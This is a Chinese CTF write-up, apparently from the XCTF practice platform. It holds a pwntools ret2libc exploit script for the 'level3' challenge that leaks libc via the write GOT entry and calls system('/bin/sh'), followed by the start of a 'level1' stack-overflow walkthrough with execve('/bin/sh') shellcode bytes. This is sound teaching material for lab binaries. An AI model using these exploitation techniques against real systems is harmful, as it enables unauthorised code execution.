 gdb、objdump、python、pwntools, IDA

这道题涉及到延迟绑定的内容。 请参阅 参考阅读下的链接。

```python
from pwn import *
p = process('./level3') 
elf = ELF('./level3') 
libc = ELF("/lib/i386-linux-gnu/libc.so.6")
cnt = 140 
vul_func = 0x0804844b
p.recv() 
payload1 = 'a'*cnt + p32(elf.symbols['write']) + p32(vul_func) 
payload1 += p32(1) + p32(elf.got['write']) + p32(4)
p.sendline(payload1) 
write_addr = u32(p.recv(4)) 
print "write_addr: "+hex(write_addr)
libc_base = write_addr - libc.symbols['write'] 
log.success("libc_base:"+hex(libc_base))
system_addr = libc_base + libc.symbols['system'] 
print "system_addr: " + hex(system_addr)
bin_addr = libc_base + libc.search('/bin/sh').next()
print "bin_addr: "+hex(bin_addr) 
payload2 = 'a'*cnt + p32(system_addr) + p32(vul_func) + p32(bin_addr) p.sendline(payload2)
p.interactive()
```

# 攻防世界: level1

## **[目标]**

stack overflow,ROP

## **[环境]**

Ubuntu

## **[工具]**

gdb、objdump、python、pwntools, IDA

## **[过程分析]**

- 查看有哪些保护机制开启：

![img](https://adworld.xctf.org.cn/media/task/writeup/cn/level1/pic/1.png)- 没开canary，也没有开栈不可执行。

![img](https://adworld.xctf.org.cn/media/task/writeup/cn/level1/pic/2.png) - vulnerable_function()里可以进行溢出，我们可以在栈中填写shellcode，执行来拿到shell权限。这里我们使用一段执行execve ("/bin/sh")命令的语句作为shellcode。

```
shellcode = "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73" shellcode += "\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0" shellcode += "\x0b\xcd\x80"
```
